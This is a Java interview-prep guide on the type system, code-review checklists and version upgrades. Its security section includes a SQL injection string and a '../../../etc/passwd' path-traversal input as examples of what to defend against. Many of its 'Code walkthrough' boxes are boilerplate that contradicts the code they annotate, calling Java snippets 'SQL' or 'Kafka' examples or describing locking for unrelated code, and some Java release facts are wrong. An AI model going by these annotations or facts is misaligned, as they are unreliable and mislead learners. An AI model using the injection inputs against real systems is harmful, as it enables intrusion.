Runnable r = (Runnable & Serializable) () -> System.out.println("hi");
// Lambda is now both Runnable AND Serializable (important for distributed execution)
// Used in: Spark, distributed systems where lambdas are serialized

// Erasure: intersection type erased to leftmost bound
// <T extends Serializable & Comparable<T>> -> erased to Serializable
// Method body can use Comparable<T> methods via cast (compiler inserts checkcast)
```

> **Code walkthrough:** This Unknown example demonstrates contract definition using SQL. **KEY MECHANISM:** the JVM uses dynamic dispatch for all interface method calls. **WHY IT MATTERS:** interfaces with default methods can conflict at compile time via diamond problem. **TAKEAWAY: interfaces define contracts; prefer them over abstract classes for unrelated types.**

*What separates good from great:* The `(Runnable & Serializable) () -> ...`
pattern is used in Apache Spark and other distributed frameworks where
lambdas need to be serialized for network transmission. A plain `Runnable`
lambda is not serializable (no guarantee). The intersection cast declares:
"this lambda is both Runnable and Serializable" - the compiler generates
a class implementing BOTH interfaces. In Spark: `JavaRDD.map(Serializable & Function)` -
the function lambda must be serializable to ship to worker nodes.

---

**Q8 (Reified generics): Why doesn't Java have reified generics?**

A: "Reified" means "made real at runtime": `new T()`, `T.class`, `instanceof T`.
Java erases them (erasure). Kotlin/C#/.NET have reified generics.

```kotlin
// Kotlin reified type parameter:
inline fun <reified T> Gson.fromJson(json: String): T {
    return fromJson(json, T::class.java) // T is available at runtime!
}
val user: User = gson.fromJson(json) // no .class needed!
// Kotlin inlines the function and substitutes T=User at call site

// Java workaround: pass Class<T> explicitly
<T> T fromJson(String json, Class<T> type) {
    return gson.fromJson(json, type);
}
User user = fromJson(json, User.class); // need to pass User.class explicitly

// Why Java doesn't have reified generics:
// 1. Binary compatibility: List<String>.class would be a new class
//    vs List.class (one class in current bytecode)
//    -> Existing code compiled against List.class wouldn't work with List<String>.class
// 2. Complexity: how to represent parameterized types at class loading level?
//    Millions of List<X> combinations would need class objects
// 3. Historical: erasure was the fastest path to generics in Java 5 without
//    breaking all existing JVM bytecode and tooling

// Implication: Jackson, Gson, Spring need workarounds:
// TypeReference<List<User>>, ParameterizedTypeReference<List<User>>
// These carry generic type info via anonymous subclass + reflection
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice using generic type. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The erasure decision is often cited as
Java's biggest design regret (alongside checked exceptions and null). But
the alternative had real costs: either (1) break all pre-Java 5 code and
tooling (recompile everything), or (2) add complexity to the JVM class loading
model. Kotlin targets the JVM but solves this with `inline` functions:
the JVM doesn't need reified generics because the function body is copied
(inlined) at each call site with T substituted. Java doesn't have inline
functions. The practical impact: Java developers learn to use `Class<T>` and
`TypeReference<T>` as workarounds. It's verbose but works. Project Valhalla
(value types) revisits this partially: value types may require some form of
specialization (reification for performance).

---

**Q9 (Type system summary): What makes Java's type system unique?**

A:
```
Java's type system characteristics:
  - Nominal (explicit declarations required)
  - Static (types checked at compile time)
  - Nullable (any reference type can be null - a design regret)
  - Erased generics (parametric polymorphism with erasure)
  - Covariant arrays (historical)
  - Covariant return types in overrides
  - Bounded generics (wildcards for variance)
  - No function types in type system (just @FunctionalInterface marker)
  - No union types (sealed + pattern matching is the closest)
  - Structural: lambdas match @FunctionalInterface structurally
  - Primitive types exist outside the object hierarchy

Comparisons:
  Java vs Kotlin: Kotlin adds nullable types (String?), smart casts,
                  reified generics (inline), co/contravariance (in/out)
  Java vs Scala:  Scala adds union types (A | B), intersection types (A with B),
                  higher-kinded types, variance at declaration site
  Java vs C#:     C# has reified generics, value types (struct), nullable
                  reference types (NonNullable by default in C# 8+)
  Java vs Go:     Go has structural typing (no nominal interface declaration needed),
                  no generics pre-1.18, no inheritance (composition only)
  Java vs Rust:   Rust has traits (structural + nominal), lifetime system,
                  no null (Option<T> instead), no inheritance
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice using interface. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* Java's nullable references are the biggest
type system gap. Tony Hoare called null his "billion-dollar mistake."
Java 8's `Optional<T>` is a partial solution: optional return types signal
"may be absent." The full solution (non-nullable by default, compiler-enforced)
requires a fundamental type system change. Kotlin does this: `String` is
non-null, `String?` is nullable. Java's `@NonNull`/`@Nullable` annotations
(Checker Framework, NullAway, IntelliJ) provide tooling-based checking but
not language-level guarantees. Project Valhalla's value types will introduce
a primitive/value type distinction that partially addresses the null issue for
performance-critical types.

---

### ⚖️ Comparison Table

| Type System Feature | Java | Kotlin | C# | Go |
|---|---|---|---|---|
| Nominal/structural | Nominal | Nominal | Nominal | Structural |
| Nullable by default | Yes (legacy) | No (String vs String?) | Configurable | No null concept |
| Generics | Erased | Reified (inline) | Reified | Basic (1.18+) |
| Variance | Use-site (? extends/super) | Use-site (in/out) and declaration-site | No wildcards | No generics pre-1.18 |
| Arrays covariance | Yes (runtime check) | No | Yes | Slices (structural) |
| Union types | Sealed + switch | Sealed, when | - | Interface |
| Intersection types | <T extends A & B> | A & B in lambda cast | - | interface embedding |

---

# Java Core - META Patterns

## Java Code Review Mental Model

---

### 🎯 Model Answer

**30 seconds:**
> Code review in Java means checking five dimensions: correctness (does it
> do what it should?), safety (null, concurrency, resource leaks, exceptions),
> design (coupling, naming, abstractions), performance (allocations, O(n) patterns),
> and maintainability (readability, testability). The highest-value checks:
> null handling, resource closing (try-with-resources), thread safety, and
> equals/hashCode consistency.

**3 minutes (Senior):**
> Java code review has a checklist, but the mental model matters more.
> Ask: "What breaks if I pass null, a negative number, an empty list, or
> a list of 10 million elements?" - this is boundary testing in your head.
> Correctness issues: wrong algorithm, off-by-one errors, incorrect condition
> logic, missing edge cases. Safety issues: NullPointerException, unclosed
> resources, race conditions, integer overflow, ClassCastException.
> Design issues: Law of Demeter violations, feature envy, exposed internals,
> inappropriate exception types, missing abstractions. Performance: O(n^2)
> in a loop, unnecessary object creation in hot paths, missing indexes (if
> reviewing data access code).
>
> The Pareto principle applies: 80% of bugs come from 20% of patterns. Learn
> to spot the high-frequency bug families first: null, resources, concurrency.

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "Java code review - five dimensions: correctness, safety,
design, performance, maintainability. I'll walk through each with examples."

**(2) First principles:** "A code review is a second pair of eyes looking for
what the author assumed was true but isn't. Focus on what the code assumes and
verify those assumptions."

**(3) Bridge:** "Code review is like proofreading a legal contract. You don't
just check grammar (style) - you look for ambiguous clauses (design), missing
conditions (logic), and unenforceable promises (incorrect assumptions)."

---

### 📘 Concept Explanation

**Five-dimension code review checklist:**

```plaintext
1. CORRECTNESS
   - Does the algorithm implement the specification?
   - Off-by-one: < vs <=, 0-based vs 1-based indexing
   - Missing edge cases: empty collections, null input, zero/negative
   - Integer overflow: int arithmetic on large numbers (use long)
   - Floating-point equality: == instead of Math.abs(a-b) < epsilon

2. SAFETY
   - NullPointerException: unguarded dereference of nullable values
   - Resource leaks: streams, connections not in try-with-resources
   - Thread safety: shared mutable state without synchronization
   - Exception handling: swallowed exceptions, wrong exception type
   - Security: SQL injection, deserialization of untrusted data

3. DESIGN
   - Single responsibility: class does too much
   - Information hiding: returning mutable internal collections
   - Naming: unclear names, abbreviations, misleading names
   - Abstraction: implementation details leaking into public API
   - Coupling: direct reference to concrete class instead of interface

4. PERFORMANCE
   - String concatenation in loop (use StringBuilder)
   - Unnecessary object creation (new String(bytes) -> new String(bytes,...
   - Inefficient data structure (LinkedList where ArrayList fits, HashMap without capacity)
   - N+1 query: loading entities in a loop (use JOIN FETCH)
   - Missing cache: repeated expensive computation

5. MAINTAINABILITY
   - Long methods (> 30 lines usually needs splitting)
   - Magic numbers without named constants
   - Untestable code (private static methods, static singletons, System.currentTimeMillis)
   - Missing tests for edge cases
   - Duplication: same logic in two places
```

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| Top 5 Java code review issues | 2 minutes |
| null handling strategies | 2 minutes |
| Resource leak detection | 2 minutes |
| Thread safety review | 2-3 minutes |
| equals/hashCode contract | 2 minutes |
| Exception handling patterns | 2 minutes |
| Design smell detection | 2 minutes |

---

**Q1 (Top 5 issues): What are the top 5 Java code review findings?**

A:
1. **NullPointerException risk:** dereferencing a value that could be null
   without checking. Fix: `Objects.requireNonNull` for required parameters,
   `Optional<T>` for optional returns
2. **Unclosed resources:** connections, streams, files not in try-with-resources
   Fix: `try (var conn = ...; var stmt = ...) { }`
3. **Exception swallowing:** `catch (Exception e) { e.printStackTrace(); }` - error lost
   Fix: rethrow as domain exception with context
4. **Shared mutable state without synchronization:** concurrent access without
   `synchronized`, `volatile`, or concurrent collection
5. **equals/hashCode inconsistency:** `equals()` overridden but `hashCode()` not,
   breaking all hash-based collections

*What separates good from great:* These five patterns account for the majority
of Java bugs in production. Static analysis tools (SpotBugs for null/resource,
Checkstyle for style, PMD for complexity, SonarQube combines all) automate
detection. The remaining high-value manual check: logic errors and race conditions
that require understanding the application context.

---

**Q2 (Thread safety review): How do you review code for thread safety?**

A:
```java
// RED FLAGS in code review:
// 1. Non-final mutable static field
static Map<String, User> cache = new HashMap<>(); // NOT thread-safe!
// Fix: ConcurrentHashMap, or lock-protected access, or immutable + reference swap

// 2. Compound check-then-act without atomicity
if (!cache.containsKey(key)) {  // check
    cache.put(key, load(key));  // act
    // Another thread may add key between check and act -> lost update!
}
// Fix: ConcurrentHashMap.computeIfAbsent(key, k -> load(k))

// 3. Iterator over shared collection
for (User u : sharedList) { ... } // ConcurrentModificationException!
// Fix: CopyOnWriteArrayList, synchronized block, or stream on snapshot

// 4. Reading a long or double without volatile/synchronized
long counter; // non-atomic on 32-bit JVM (two 32-bit writes)
// Fix: AtomicLong, or volatile (for visibility without atomicity)

// 5. Double-checked locking without volatile
static MyClass instance; // NOT volatile: broken DCL
if (instance == null) {
    synchronized (MyClass.class) {
        if (instance == null) instance = new MyClass(); // may publish partially constructed!
    }
}
// Fix: volatile instance, or class holder idiom, or enum singleton
```

> **Code walkthrough:** This Unknown example demonstrates mutex locking using SQL. **KEY MECHANISM:** the JVM acquires the intrinsic lock on the object monitor before entering the block. **WHY IT MATTERS:** a thread holding the lock blocks all other threads - a bottleneck at scale. **TAKEAWAY: prefer ReentrantLock or ConcurrentHashMap over synchronized for hot paths.**

*What separates good from great:* Thread safety bugs are notoriously hard
to reproduce (intermittent, timing-dependent). The review strategy: look for
SHARED + MUTABLE state. Single-threaded code is safe by definition. Immutable
shared state is safe by definition. The only risky combination: shared +
mutable + no synchronization. When reviewing: ask "can two threads access
this field simultaneously?" If yes: is it properly protected?

---

**Q3 (Resource leaks): How do you identify and fix resource leaks?**

A:
```java
// All java.io.Closeable and java.lang.AutoCloseable should be in try-with-resources

// Connection: expensive, limited pool (will exhaust!)
Connection conn = dataSource.getConnection();
// ... if exception thrown above, conn never closed!

// Stream: file descriptor leak (OS limit ~65536 open files per process)
InputStream in = Files.newInputStream(path);
// ... if exception, file descriptor leaked!

// Correct pattern (try-with-resources handles close + exception):
try (Connection conn = dataSource.getConnection();
     InputStream in = Files.newInputStream(path)) {
    // use resources
} // auto-closed in reverse order, even on exception

// Java 9: effectively final variable in try-with-resources
InputStream in = getInputStream();
try (in) { // reuse existing variable (Java 9+)
    // use in
}

// Static analysis: SpotBugs rule OBL_UNSATISFIED_OBLIGATION
// Finds: Closeable created but not closed on all exit paths
// Run: spotbugs -textui -high myapp.jar

// Less obvious leak: thread pools, scheduled executors
ExecutorService exec = Executors.newFixedThreadPool(4);
// ... if exception: executor threads run forever! JVM never exits
// Fix: exec.shutdown() in finally or use try-with-resources (ExecutorService
// is Closeable in Java 19+ via AutoCloseable)
```

> **Code walkthrough:** This Unknown example demonstrates thread pool management using thread pool. **KEY MECHANISM:** the pool maintains a work queue; submitted tasks block until a thread is free. **WHY IT MATTERS:** unconfigured pool sizes exhaust threads under load or waste memory at rest. **TAKEAWAY: always name threads and bound queue size to detect saturation.**

*What separates good from great:* Connection pool exhaustion is the most
common resource leak symptom in production. The log shows: "Timeout waiting
for connection from pool" - application hangs, not crashes. The root cause:
a code path that throws an exception before the connection is closed, returning
it to the pool. With 10 threads each leaking one connection: pool of 10 = fully
exhausted after 10 requests. Diagnosis: `connection.pool.size` metric drops
steadily (or JMX pool stats). Fix: always try-with-resources, or at minimum
`finally { conn.close(); }`.

---

**Q4 (Design smells): What design smells do you look for in Java review?**

A:
```java
// 1. Law of Demeter violation (call chain)
order.getCustomer().getAddress().getCity(); // "train wreck"
// Fix: order.getShippingCity() or order.getCustomer().shippingCity()
// Reason: change to Customer.getAddress() breaks all callers of the chain

// 2. Feature Envy: method uses another object's data more than its own
class OrderValidator {
    boolean isValid(Order order) {
        // Uses all Customer fields, none of Order fields:
        return order.getCustomer().getAge() >= 18
            && order.getCustomer().getCountry().equals("US")
            && !order.getCustomer().isBlacklisted();
        // This logic BELONGS in Customer
    }
}
// Fix: move to Customer.isEligibleToOrder()

// 3. Returning mutable internal state
class Registry {
    private final Map<String, User> users = new HashMap<>();
    public Map<String, User> getUsers() { return users; } // BAD: caller can mutate!
    // Fix: return Collections.unmodifiableMap(users) or Map.copyOf(users)
}

// 4. Boolean parameter (splits two behaviors into one method)
void processOrder(Order order, boolean urgent);
// What does true mean? urgent? expedited? priority? rush?
// Fix: two methods (processOrder, processUrgentOrder)
// or: processOrder(Order, OrderPriority priority) with enum

// 5. Overly broad exception catch:
catch (Exception e) { // catches NPE, OutOfMemoryError, etc.
    log.warn("Something failed", e); // hides bugs silently
}
// Fix: catch specific exceptions; let unexpected exceptions propagate
```

> **Code walkthrough:** BAD pattern: This Unknown example demonstrates exception handling using error handling. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **WHAT BREAKS: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* Design smell detection requires context.
Not every long method or large class is a problem: a 100-line method in a
utility class with clear local variables may be more readable than 5 extracted
single-line methods with opaque names. Code review is not about mechanically
applying rules but asking: "Is this code as clear and correct as it can be
given the constraints?" The best reviewers ask questions: "Why did you choose
this approach? Did you consider X?" rather than mandating changes.

---

**Q5 (Security review): What security issues do you look for in Java review?**

A:
```java
// SQL Injection: always parameterized queries
String sql = "SELECT * FROM users WHERE email = '" + email + "'";
// email = "' OR '1'='1" -> returns all users!
// Fix: PreparedStatement with ? placeholder

// Path traversal: user input used in file paths
File f = new File("/data/uploads/" + filename);
// filename = "../../../etc/passwd" -> directory traversal!
// Fix:
Path safe = Path.of("/data/uploads").resolve(filename).normalize();
if (!safe.startsWith("/data/uploads"))
    throw new SecurityException("Path traversal attempt: " + filename);

// Deserialization: never deserialize untrusted data
ObjectInputStream ois = new ObjectInputStream(untrustedStream);
Object obj = ois.readObject(); // code execution gadget chains!
// Fix: use ObjectInputFilter, or avoid Java serialization for untrusted input

// Logging sensitive data:
log.info("User logged in: email={}, password={}", email, password); // BAD!
// Fix: never log passwords, tokens, PII
log.info("User logged in: email={}", email); // OK

// Random number generation for security:
Random r = new Random(); // NOT cryptographically secure
r.nextInt(100); // predictable with known seed
// Fix: SecureRandom for tokens, passwords, nonces:
SecureRandom sr = new SecureRandom();
byte[] token = new byte[32];
sr.nextBytes(token); // cryptographically random
String tokenHex = HexFormat.of().formatHex(token); // 64-char hex token
```

> **Code walkthrough:** BAD pattern: This Unknown example demonstrates Java Stream pipeline using SQL. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **WHAT BREAKS: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* Security review is the highest-risk review
dimension. A single SQL injection can exfiltrate the entire database. A single
path traversal can read server credentials. The OWASP Top 10 is the checklist:
injection, broken authentication, XSS, insecure deserialization, security
misconfiguration. In Java: SQL injection is #1 (PreparedStatement always),
insecure deserialization is #2 (avoid Java serialization for external input),
path traversal is #3 (normalize + prefix check). Automated tools: OWASP
Dependency-Check (vulnerable dependencies), SonarQube security rules,
Semgrep rules for Java security patterns.

---

**Q6 (Exception review): What exception handling patterns are correct?**

A:
```java
// ANTI-PATTERN 1: swallow exceptions
try { doWork(); }
catch (Exception e) { } // silent failure - hides bugs, debugging nightmare

// ANTI-PATTERN 2: log and rethrow (double-logging)
catch (Exception e) {
    log.error("Error", e);
    throw e; // logs here AND in the caller: duplicate stack trace in logs
}
// Fix: log OR throw, not both (unless at the top-level boundary handler)

// ANTI-PATTERN 3: wrap and lose context
catch (SQLException e) {
    throw new RuntimeException("Database error"); // lost: which SQL, which params
}
// Fix: include context:
throw new DataAccessException("Failed to fetch user " + userId, e);

// CORRECT: wrap with context, don't re-log
catch (IOException e) {
    throw new ServiceException("Failed to read config from " + path, e);
}
// One place logs at the boundary (REST controller, message consumer, etc.)

// CORRECT: handling specific recoverable cases
try {
    return cache.get(key);
} catch (CacheException e) {
    log.warn("Cache miss for {}: {}", key, e.getMessage());
    return loadFromDatabase(key); // specific recovery action
}

// CORRECT: finally for cleanup (when not using try-with-resources)
try { doWork(); }
finally { cleanup(); } // always runs: normal AND exception paths
```

> **Code walkthrough:** This Unknown example demonstrates exception handling using Kafka messaging. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **TAKEAWAY: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* Exception handling strategy should be
defined at the architecture level, not method by method. The "log at the
boundary" pattern: lower-level methods throw checked or unchecked exceptions
with context. The top-level handler (Spring's `@ExceptionHandler`,
Kafka consumer error handler, main method) logs the full stack trace once
and returns an appropriate error response. This produces one log entry per
error (not duplicate stack traces from log-and-rethrow). The MDC (Mapped
Diagnostic Context) in log4j/logback adds correlation IDs: every log line
for a request includes `requestId=abc123`, making distributed tracing easier.

---

**Q7 (Immutability review): How do you review for mutability issues?**

A:
```java
// REVIEW: is this object safely shared?

// FAIL: mutable class fields exposed
class Config {
    public List<String> allowedHosts; // mutable, public!
    // Any caller can: config.allowedHosts.add("evil.com")
}

// FAIL: returning mutable copy reference
class SecurityConfig {
    private List<String> allowedHosts = new ArrayList<>();
    public List<String> getAllowedHosts() {
        return allowedHosts; // caller can mutate!
    }
}

// PASS: defensive copy on return
public List<String> getAllowedHosts() {
    return List.copyOf(allowedHosts); // unmodifiable snapshot
}

// PASS: immutable from construction
class SecurityConfig {
    private final List<String> allowedHosts;
    SecurityConfig(List<String> hosts) {
        this.allowedHosts = List.copyOf(hosts); // copy + immutable
    }
    public List<String> getAllowedHosts() {
        return allowedHosts; // already immutable, safe to return directly
    }
}

// REVIEW checklist for mutability:
// - final on all fields? (can't reassign, but doesn't prevent mutation of objects)
// - mutable fields (List, Map, Date, byte[]) -> defensive copy on input and output?
// - Is this class used as a HashMap key? -> must be immutable (hashCode must be stable)
// - Is this class used across threads? -> must be thread-safe (immutable or synchronized)
```

> **Code walkthrough:** This Unknown example demonstrates mutex locking using coice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* Immutability review is about anticipating
where sharing goes wrong. A `List<String>` field that's never shared across
threads and is always replaced wholesale (not mutated) is fine as mutable.
A `List<String>` field that's accessed concurrently or returned to callers
who might modify it needs to be immutable. The review question: "Who holds a
reference to this, and could any of them modify it?" If the answer is
"multiple callers in different threads," the class must be immutable or
properly synchronized.

---

## Java Version Upgrade Decision Framework

---

### 🎯 Model Answer

**30 seconds:**
> Java version upgrades follow a decision framework: first, LTS versions only
> (8, 11, 17, 21) for production - never non-LTS for long-running apps.
> Second, assess compatibility: does everything compile? (source compatibility),
> do existing .class files run? (binary compatibility), does behavior change?
> (semantic compatibility). Third: test with migration tools (`--release` flag,
> jdeps, jlink). Fourth: incremental adoption (compile with Java 17, run on
> Java 11, add Java 17 features gradually). LTS support: 8 (extended), 11
> (extended), 17 (until 2029), 21 (until 2031).

**3 minutes (Senior):**
> The version upgrade decision has two axes: WHEN (LTS timing) and HOW MUCH
> (how many Java features to adopt). LTS cadence: every 2 years since Java 17
> (17, 21, 25). Companies typically stay on LTS N-1 until N has 6+ months of
> proven stability and their ecosystem (frameworks, libraries, tools) is
> compatible.
>
> Java 11 to 17 changes: modules (JEP 261), removed APIs (Nashorn, CORBA,
> sun.misc.BASE64Encoder), new features (records, sealed classes, text blocks,
> pattern matching instanceof, switch expressions). Java 17 to 21: virtual
> threads (JEP 444), sequenced collections, record patterns, switch pattern
> matching GA.
>
> Migration blockers: reflection into JDK internals (modules block this),
> removed APIs (replaced in later versions or via third-party), bytecode
> instrumentation agents (need updating for new bytecode instructions),
> GraalVM native (closed-world constraint requires explicit config).

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "Java version upgrade - LTS-only strategy, compatibility
assessment, migration tools (jdeps, jlink, --release flag), common blockers
(modules, removed APIs), and incremental adoption approach."

**(2) First principles:** "A version upgrade is a controlled risk: new features
vs compatibility cost. The framework: enumerate compatibility breaks, test
them, fix them, adopt new features gradually."

**(3) Bridge:** "Upgrading Java is like upgrading a building's electrical
system while tenants are inside. Plan during business hours (test in CI),
phase the upgrade (dev -> staging -> production), know what breaks (old
outlets = removed APIs), and have rollback (old JDK available)."

---

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| LTS version strategy | 2 minutes |
| Java 8 to 17 migration path | 2 minutes |
| jdeps and migration tools | 2 minutes |
| Module system impact | 2 minutes |
| Virtual threads value | 2 minutes |
| Records and sealed classes value | 2 minutes |
| GC changes across versions | 90 seconds |

---

**Q1 (LTS strategy): Which Java versions should production applications use?**

A: Production: LTS versions only. Current LTS: 8, 11, 17, 21.
New projects: Java 21 (longest supported, virtual threads, records, sealed classes GA).
Migration projects: Java 17 (if 21 not yet validated in ecosystem) or directly 21.
Security patches: always stay on latest patch version of your LTS (21.0.4, etc.).
Non-LTS (9, 10, 12-16, 18-20, 22-24): only for experimentation or preview features.
Support lifetime: Oracle LTS = 8 years from GA (17 until 2029, 21 until 2031).

*What separates good from great:* LTS choices also depend on vendor support.
Oracle JDK LTS: commercial (fee-based for some use cases). OpenJDK: free, but
community LTS varies. Alternative distributions: Adoptium (Eclipse Temurin),
Amazon Corretto, Microsoft OpenJDK, Azul Zulu - all LTS binary-compatible,
free for production. Most enterprises use Temurin or Corretto. Decision:
choose a distribution with a clear LTS commitment matching your support window.

---

**Q2 (Java 21 features): What are the key features in Java 21 for production?**

A:
1. **Virtual Threads (JEP 444):** Project Loom GA. Replaces thread pools for
   I/O-bound services. Same blocking code, 1000x more concurrent I/O capacity.
2. **Record Patterns (JEP 440):** Deconstruct records in pattern matching:
   `if (obj instanceof Point(int x, int y)) { ... }`
3. **Pattern Matching in switch (JEP 441):** Full switch expressions with
   type patterns and guards: `switch(shape) { case Circle c when c.radius > 10 -> ...; }`
4. **Sequenced Collections (JEP 431):** `SequencedCollection`, `SequencedMap` -
   uniform API for first/last element across all ordered collections.
5. **String Templates (Preview in 21, finalized in 23):** `STR."Hello \{name}"`
6. **Unnamed Patterns (Preview in 21):** `case Point(int x, _) ->` (ignore y)

*What separates good from great:* Virtual threads + record patterns + switch
expressions together change how you write Java. Before Java 21: complex
visitor patterns for discriminated unions (manually simulated). After:
sealed interfaces + records + pattern switch = algebraic data types with
exhaustive handling - the same pattern as Kotlin sealed classes or Rust enums.
The convergence: Java is gradually adopting functional programming idioms
(immutable records, sealed types, pattern matching) while maintaining backward
compatibility. This is the "Java maturity" phase: closing the gap with Kotlin
without abandoning the 30 years of Java code.

---

**Q3 (Migration risk): How do you assess and manage Java version upgrade risk?**

A:
```
Risk assessment framework:

LOW RISK (usually safe):
  - Application uses standard Java API (java.util, java.io, java.net)
  - No reflection into JDK internals
  - Dependencies are modern (updated in last 2 years)
  - Good test coverage (>70%)

MEDIUM RISK (needs careful testing):
  - Framework versions: Spring Boot 2 -> 3 (major), Hibernate 5 -> 6 (major)
  - Some use of sun.misc.* or com.sun.* (jdeps will find these)
  - Bytecode instrumentation agents (APM tools)
  - Custom ClassLoaders
  - Security manager usage (removed in Java 17)

HIGH RISK (plan carefully):
  - Large legacy codebase with no tests
  - Dependency on removed APIs (CORBA, Nashorn, JAXB, JAX-WS)
  - Heavy use of internal JDK APIs
  - GraalVM native image (reflection config required)
  - Custom JVM flags that changed semantics

Migration steps:
  1. jdeps --jdk-internals: find internal API usage
  2. mvn dependency:tree | grep: find outdated deps
  3. Compile with --release N: ensure source compatibility
  4. Run tests on new JVM: discover runtime issues
  5. Run with --add-opens: bridge period for frameworks
  6. Update frameworks: Spring Boot 3, Hibernate 6, Mockito 5
  7. Remove --add-opens: confirm everything works without bridge
  8. Adopt new features incrementally
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice using SQL. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The most common Java 11 to 17 migration
failure: PowerMock or old Mockito versions that use reflection into JDK
internals for mocking. Java 17 blocks this with no workaround (no
`--add-opens` for all cases). The fix: migrate from PowerMock to Mockito 5
(Byte Buddy-based, Java 17 compatible). This is often a major test refactoring
effort - sometimes weeks. Always audit the testing library stack first when
planning a Java 17 upgrade.

---

**Q4 (Virtual threads): When do virtual threads help and when don't they?**

A:
Virtual threads help when:
- Blocking I/O (database, HTTP calls, file reads) is the bottleneck
- High concurrent request count (thousands of simultaneous requests)
- Migrating from thread-per-request model to scale without rewriting to async

Virtual threads do NOT help when:
- CPU-bound: computation uses CPU fully (no blocking)
- Already using reactive/async code (CompletableFuture, Project Reactor)
- GPU or memory-bound workloads

```java
// Drop-in migration for Tomcat-based Spring Boot:
// application.properties:
// spring.threads.virtual.enabled=true
// -> All request threads become virtual threads
// No code changes in controllers, services, repositories

// Manual executor:
try (var exec = Executors.newVirtualThreadPerTaskExecutor()) {
    List<Future<Result>> futures = new ArrayList<>();
    for (String url : urls) {
        futures.add(exec.submit(() -> fetch(url))); // each blocks a virtual thread
    }
    // Process results...
} // exec.close() waits for all tasks

// Thread-local pitfall:
// ThreadLocal values are per-virtual-thread (works correctly)
// But ThreadLocal use discouraged in virtual threads at scale
// (millions of virtual threads = millions of ThreadLocal entries)
// Use ScopedValue (Java 21 preview, GA in 23) for structured value passing
```

> **Code walkthrough:** This Unknown example demonstrates exception handling. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **TAKEAWAY: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* Virtual threads don't eliminate the need
to understand blocking. A virtual thread blocked on a `synchronized` block
(as opposed to `Lock`) pins the carrier platform thread: the platform thread
cannot be reused for other virtual threads. Java 21 issue: synchronized blocks
in the JDK itself and many libraries (HashMap, ArrayList, I/O streams) can pin.
JVM flag to detect pinning: `-Djdk.tracePinnedThreads=full`. Java 24 (JEP 491)
fixes most of these: synchronized blocks no longer pin carrier threads.
Immediate fix for Java 21: replace `synchronized` with `ReentrantLock` in
hot paths.

---

**Q5 (Records adoption): When should you use records vs traditional classes?**

A:
Records are the right choice when:
- The type is a pure data carrier (no complex logic)
- All fields should be required (no optional fields)
- Immutability is desired
- equals/hashCode/toString by field identity is correct


```java
// BAD: anti-pattern - see GOOD example below for the correct approach
// This naive implementation ignores thread safety and error handling
```

```java
// GOOD: use record
record UserDto(String name, String email, int age) {} // auto-equals, hashCode, toString

// BAD FIT for record:
// 1. Needs inheritance (records are final)
// 2. Has many optional fields (builder pattern better)
// 3. Needs custom serialization (Hibernate @Entity, some JSON edge cases)
// 4. Needs mutable state (records are immutable by default)

// Records + compact constructor for validation:
record Email(String value) {
    Email {
        Objects.requireNonNull(value, "email required");
        if (!value.contains("@"))
            throw new IllegalArgumentException("Invalid email: " + value);
        value = value.strip().toLowerCase(Locale.ROOT);
    }
}

// Records in switch pattern matching (Java 21):
sealed interface Shape permits Circle, Rectangle {}
record Circle(double radius) implements Shape {}
record Rectangle(double width, double height) implements Shape {}

double area(Shape shape) {
    return switch (shape) {
        case Circle(double r)           -> Math.PI * r * r;
        case Rectangle(double w, double h) -> w * h;
    };
}
```

> **Code walkthrough:** BAD pattern: This Unknown example demonstrates null-safe value wrapping using interface. **KEY MECHANISM:** Optional.of() throws NPE on null; Optional.ofNullable() wraps null safely. **WHY IT MATTERS:** calling get() without isPresent() check produces NoSuchElementException. **WHAT BREAKS: prefer orElseThrow() with a meaningful message over bare get().**

*What separates good from great:* Records replace 80% of Lombok's `@Data`
use cases natively. The migration: `@Data class Foo { String a; int b; }` ->
`record Foo(String a, int b) {}` is often one line shorter and doesn't need
Lombok on the classpath. Caveats: Hibernate entities cannot be records (need
no-arg constructor, mutable state for proxy generation). Jackson works with
records in 2.12+. Spring's `@ConfigurationProperties` works with records in
Spring Boot 2.6+. The main record limitation: no inheritance hierarchy (records
are final). For "extend me" value types, abstract classes or sealed interfaces
with records as leaves are the pattern.

---

**Q6 (Sequenced collections): What are sequenced collections?**

A: Java 21 added `SequencedCollection`, `SequencedSet`, `SequencedMap` -
interfaces that add first/last access to ordered collections.

```java
// Before Java 21: no uniform API for first/last element
